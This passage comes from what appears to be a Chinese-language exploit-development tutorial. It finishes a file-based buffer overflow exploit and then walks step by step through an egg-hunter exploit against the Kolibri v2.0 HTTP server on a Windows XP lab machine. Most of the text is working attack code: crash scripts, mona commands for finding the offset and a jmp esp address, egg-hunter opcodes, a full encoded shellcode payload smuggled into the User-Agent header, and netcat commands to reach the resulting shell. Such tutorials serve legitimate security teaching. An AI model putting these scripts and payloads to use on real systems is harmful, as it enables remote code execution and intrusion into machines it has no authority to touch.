6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co"  
evil = "\x90"*20 + buf  
buffer = "A"*608 + "\xEB\x06\x90\x90" + "\x19\x76\x61\x61" + evil + "B"*(1384-len(evil))  
textfile = open(filename , 'w') 
textfile.write(buffer) 
textfile.close() 
```

16.  现在使用脚本生成有效负载文件。
17.  在调试器中运行应用程序并加载负载。
18.  现在我们可以运行`nc`命令连接到系统：

```
nc -nv 192.168.1.37 4444  
```

# 鸡蛋猎人

在缓冲区溢出中，我们劫持执行流并重定向到包含部分缓冲区的 CPU 寄存器，该缓冲区中的指令将被执行。但是，如果缓冲区大小非常小，我们就不能注入任何有效负载。所以我们不能利用这个漏洞。在这种情况下，我们必须检查两种可能的选择。在覆盖 EIP 寄存器之前，首先检查缓冲区的位置是否位于内存中。另一个选项是在内存的另一个区域和附近设置一个缓冲段，这样我们就可以跳转到偏移量。

鸡蛋搜寻器是用一组翻译成操作码的指令创建的。因此，可以使用鸡蛋搜寻器搜索整个内存范围，包括堆栈和堆，以查找最终阶段的 shell 代码，并将执行流重定向到 shell 代码。

Egg hunters 包含一个用户定义的四字节标记，用于在内存中搜索，直到发现该标记重复两次。当它找到标记时，它会将执行流重定向到 shell 代码所在的标记之后。

# 准备

我们需要另一个应用程序来演示这种创建漏洞的方法。这里我们使用 Kolibri v2.0 HTTP 服务器。可从以下网址下载：[https://rejahrehim.cimg/sample-package/Kolibri_sample.zip](https://rejahrehim.cimg/sample-package/Kolibri_sample.zip) 。

我们的受害者机器是 Windows XP 32 位机器。确保安装带有`mona.py`的免疫调试器。

# 怎么做。。。

以下是使用鸡蛋猎人生成利用脚本的步骤：

1.  我们必须创建一个新的漏洞文件。所以创建`kolibri_exploit.py`并在编辑器中打开它。
2.  我们可以从一个大的缓冲区提交到服务器开始。因此，添加以下代码。确保使用易受攻击计算机的正确 IP 地址更新 IP 地址：

```
#!/usr/bin/python   
import socket 
import os 
import sys   
buff = "A"*600   
buffer = ( 
"HEAD /" + buff + " HTTP/1.1\r\n" 
"Host: 192.168.1.37:8080\r\n" 
"User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; he; rv:1.9.2.12) Gecko/20101026 Firefox/3.6.12\r\n" 
"Keep-Alive: 115\r\n" 
"Connection: keep-alive\r\n\r\n")   
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
expl.connect(("192.168.1.37", 8080)) 
expl.send(buffer) 
expl.close() 
```

3.  使用调试器作为文件打开易受攻击的应用程序|打开并选择`kolibri.exe`。
4.  然后运行我们创建的利用漏洞脚本：

```
python kolibri_exploit.py
```

这将像往常一样使应用程序崩溃：



5.  然后用该模式更改`A`缓冲区。我们可以使用模式生成器来创建模式。用模式更新代码。我们的脚本如下：

```
#!/usr/bin/python   
import socket 
import os 
import sys  
buff = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9"  
buffer = ( 
"HEAD /" + buff + " HTTP/1.1\r\n" 
"Host: 192.168.1.37:8080\r\n" 
"User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; he; rv:1.9.2.12) Gecko/20101026 Firefox/3.6.12\r\n" 
"Keep-Alive: 115\r\n" 
"Connection: keep-alive\r\n\r\n")   
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
expl.connect(("192.168.1.37", 8080)) 
expl.send(buffer) 
expl.close() 
```

6.  重新启动应用程序并再次运行脚本。这也会使应用程序崩溃。然后使用`mona`获取寄存器的详细信息。为此，请在调试器控制台中提供以下命令：

```
!mona findmsp  
```


由此我们可以确定，EIP 可以在 515 个字节之后被 4 个字节覆盖

7.  根据这些信息，我们可以如下更新缓冲区：

```
buf = "A"*515 + [EIP] + "B"*81     
```

8.  现在我们可以获得一个地址，将执行流重定向到 ESP 寄存器。为此，我们可以利用`mona.py`：

```
!mona jmp -r esp     
```



我们可以从中选择一个指针并将其放入缓冲区。我们可以选择以下指针：

```
0x7e45b310 : jmp esp |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)  
```

此外，我们将把猎蛋者放在缓冲区中，并进行短距离跳转。要做到这一点，我们必须在末尾包含短跳转的操作码。因此，使用短跳转的指针和操作码相应地更新缓冲区。操作码短跳转的计算如下。短跳转操作码以`\xEB`开头，后跟我们需要跳转的距离。这里我们必须向后跳转 60 个字节。

因此，使用计算器将-60 十进制转换为十六进制：





9.  现在，将这两者结合起来，操作码将为`\xEB\xC4`，如下所示：
10.  现在，我们的脚本如下：

```
#!/usr/bin/python  
import socket 
import os 
import sys 
buff = "A"*515 + "\x10\xb3\x54\x7e" +"\xEB\xC4"  
buffer = ( 
"HEAD /" + buff + " HTTP/1.1\r\n" 
"Host: 192.168.1.37:8080\r\n" 
"User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; he; rv:1.9.2.12) Gecko/20101026 Firefox/3.6.12\r\n" 
"Keep-Alive: 115\r\n" 
"Connection: keep-alive\r\n\r\n")   
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
expl.connect(("192.168.1.37", 8080)) 
expl.send(buffer) 
expl.close() 
```

11.  现在重新启动应用程序和调试器，然后再次运行脚本。执行此操作后，流将从 EIP 重定向到 ESP，因为 ESP 包含我们的短跳转，它将向后跳转 60 个字节，最终到达我们放置`A`缓冲区的区域：



12.  现在我们可以使用`mona.py`生成一个鸡蛋猎人，并将其包含在脚本中。

在调试器控制台中发出以下命令并复制生成的代码：

```
!mona help egg 
!mona egg -t b33f 
```


13.  使用蛋猎人代码更新脚本。现在我们的脚本如下所示：

```
#!/usr/bin/python   
import socket 
import os 
import sys  
hunter = ( 
"\x66\x81\xca\xff" 
"\x0f\x42\x52\x6a" 
"\x02\x58\xcd\x2e" 
"\x3c\x05\x5a\x74" 
"\xef\xb8\x62\x33" 
"\x33\x66\x8b\xfa"  
"\xaf\x75\xea\xaf" 
"\x75\xe7\xff\xe7")  
buff = "A"*478 + hunter + "A"*5 + "\x10\xb3\x54\x7e" +"\xEB\xC4"  
buffer = ( 
"HEAD /" + buff + " HTTP/1.1\r\n" 
"Host: 192.168.1.37:8080\r\n" 
"User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; he; rv:1.9.2.12) Gecko/20101026 Firefox/3.6.12\r\n" 
"Keep-Alive: 115\r\n" 
"Connection: keep-alive\r\n\r\n")   
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
expl.connect(("192.168.1.37", 8080)) 
expl.send(buffer) 
expl.close() 
```

14.  现在，使用 Metasploit 生成 shell 代码，并将 shell 包含在脚本中，以将 shell 代码推送到服务器。因此，我们的最终脚本和 shell 代码如下所示：

```
#!/usr/bin/python   
import socket 
import os 
import sys  
hunter = ( 
"\x66\x81\xca\xff" 
"\x0f\x42\x52\x6a" 
"\x02\x58\xcd\x2e" 
"\x3c\x05\x5a\x74" 
"\xef\xb8\x62\x33" 
"\x33\x66\x8b\xfa"  
"\xaf\x75\xea\xaf" 
"\x75\xe7\xff\xe7")  
shellcode = ( 
"\xdb\xcf\xd9\x74\x24\xf4\x59\x49\x49\x49\x49\x49\x49\x49\x49" 
"\x49\x49\x43\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58" 
"\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42" 
"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x39\x6c" 
"\x4a\x48\x6d\x59\x67\x70\x77\x70\x67\x70\x53\x50\x4d\x59\x4b" 
"\x55\x75\x61\x49\x42\x35\x34\x6c\x4b\x52\x72\x70\x30\x6c\x4b" 
"\x43\x62\x54\x4c\x4c\x4b\x62\x72\x76\x74\x6c\x4b\x72\x52\x35" 
"\x78\x36\x6f\x6e\x57\x42\x6a\x76\x46\x66\x51\x6b\x4f\x50\x31" 
"\x69\x50\x6c\x6c\x75\x6c\x35\x31\x53\x4c\x46\x62\x34\x6c\x37" 
"\x50\x6f\x31\x58\x4f\x74\x4d\x75\x51\x49\x57\x6d\x32\x4c\x30" 
"\x66\x32\x31\x47\x4e\x6b\x46\x32\x54\x50\x4c\x4b\x62\x62\x45" 
"\x6c\x63\x31\x68\x50\x4c\x4b\x61\x50\x42\x58\x4b\x35\x39\x50" 
"\x33\x44\x61\x5a\x45\x51\x5a\x70\x66\x30\x6c\x4b\x57\x38\x74" 
"\x58\x4c\x4b\x50\x58\x57\x50\x66\x61\x58\x53\x78\x63\x35\x6c" 
"\x62\x69\x6e\x6b\x45\x64\x6c\x4b\x76\x61\x59\x46\x45\x61\x39" 
"\x6f\x70\x31\x39\x50\x6c\x6c\x4f\x31\x48\x4f\x66\x6d\x45\x51" 
"\x79\x57\x46\x58\x49\x70\x50\x75\x39\x64\x73\x33\x61\x6d\x59" 
"\x68\x77\x4b\x53\x4d\x31\x34\x32\x55\x38\x62\x61\x48\x6c\x4b" 
"\x33\x68\x64\x64\x76\x61\x4e\x33\x43\x56\x4c\x4b\x44\x4c\x70" 
"\x4b\x6e\x6b\x51\x48\x35\x4c\x43\x31\x4b\x63\x4e\x6b\x55\x54" 
"\x6e\x6b\x47\x71\x48\x50\x4c\x49\x31\x54\x45\x74\x36\x44\x43" 
"\x6b\x43\x6b\x65\x31\x52\x79\x63\x6a\x72\x71\x39\x6f\x6b\x50" 
"\x56\x38\x33\x6f\x50\x5a\x4c\x4b\x36\x72\x38\x6b\x4c\x46\x53" 
"\x6d\x42\x48\x47\x43\x55\x62\x63\x30\x35\x50\x51\x78\x61\x67" 
"\x43\x43\x77\x42\x31\x4f\x52\x74\x35\x38\x70\x4c\x74\x37\x37" 
"\x56\x37\x77\x4b\x4f\x78\x55\x6c\x78\x4c\x50\x67\x71\x67\x70" 
"\x75\x50\x64\x69\x49\x54\x36\x34\x36\x30\x35\x38\x71\x39\x6f" 
"\x70\x42\x4b\x55\x50\x79\x6f\x4a\x75\x66\x30\x56\x30\x52\x70" 
"\x76\x30\x77\x30\x66\x30\x73\x70\x66\x30\x62\x48\x68\x6a\x54" 
"\x4f\x4b\x6f\x4b\x50\x79\x6f\x78\x55\x4f\x79\x59\x57\x75\x61" 
"\x6b\x6b\x42\x73\x51\x78\x57\x72\x35\x50\x55\x77\x34\x44\x4d" 
"\x59\x4d\x36\x33\x5a\x56\x70\x66\x36\x43\x67\x63\x58\x38\x42" 
"\x4b\x6b\x64\x77\x50\x67\x39\x6f\x4a\x75\x66\x33\x33\x67\x73" 
"\x58\x4f\x47\x4d\x39\x55\x68\x69\x6f\x49\x6f\x5a\x75\x33\x63" 
"\x32\x73\x53\x67\x42\x48\x71\x64\x6a\x4c\x47\x4b\x59\x71\x59" 
"\x6f\x5a\x75\x30\x57\x4f\x79\x78\x47\x61\x78\x34\x35\x30\x6e" 
"\x70\x4d\x63\x51\x39\x6f\x69\x45\x72\x48\x75\x33\x50\x6d\x55" 
"\x34\x57\x70\x6f\x79\x5a\x43\x43\x67\x71\x47\x31\x47\x54\x71" 
"\x5a\x56\x32\x4a\x52\x32\x50\x59\x66\x36\x58\x62\x39\x6d\x71" 
"\x76\x4b\x77\x31\x54\x44\x64\x65\x6c\x77\x71\x37\x71\x4c\x4d" 
"\x37\x34\x57\x54\x34\x50\x59\x56\x55\x50\x43\x74\x61\x44\x46" 
"\x30\x73\x66\x30\x56\x52\x76\x57\x36\x72\x76\x42\x6e\x46\x36" 
"\x66\x36\x42\x73\x50\x56\x65\x38\x42\x59\x7a\x6c\x67\x4f\x4e" 
"\x66\x79\x6f\x4a\x75\x4d\x59\x6b\x50\x62\x6e\x76\x36\x42\x66" 
"\x4b\x4f\x36\x50\x71\x78\x54\x48\x4c\x47\x75\x4d\x51\x70\x4b" 
"\x4f\x48\x55\x6f\x4b\x6c\x30\x78\x35\x6f\x52\x33\x66\x33\x58" 
"\x6c\x66\x4f\x65\x6f\x4d\x4f\x6d\x6b\x4f\x7a\x75\x75\x6c\x56" 
"\x66\x51\x6c\x65\x5a\x4b\x30\x79\x6b\x69\x70\x51\x65\x77\x75" 
"\x6d\x6b\x30\x47\x36\x73\x31\x62\x62\x4f\x32\x4a\x47\x70\x61" 
"\x43\x4b\x4f\x4b\x65\x41\x41")  
buff = "A"*478 + hunter + "A"*5 + "\x10\xb3\x54\x7e" +"\xEB\xC4"  
shell = "b33fb33f" + shellcode  
buffer = ( 
"HEAD /" + buff + " HTTP/1.1\r\n" 
"Host: 192.168.1.37:8080\r\n" 
"User-Agent: " + shell + "\r\n" 
"Keep-Alive: 115\r\n" 
"Connection: keep-alive\r\n\r\n")   
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
expl.connect(("192.168.1.37", 8080)) 
expl.send(buffer) 
expl.close() 
```

15.  现在在调试器中重新启动应用程序，并运行要利用的脚本。使用`nc`命令检查漏洞：

```
nc -nv 192.168.1.37 9988  
```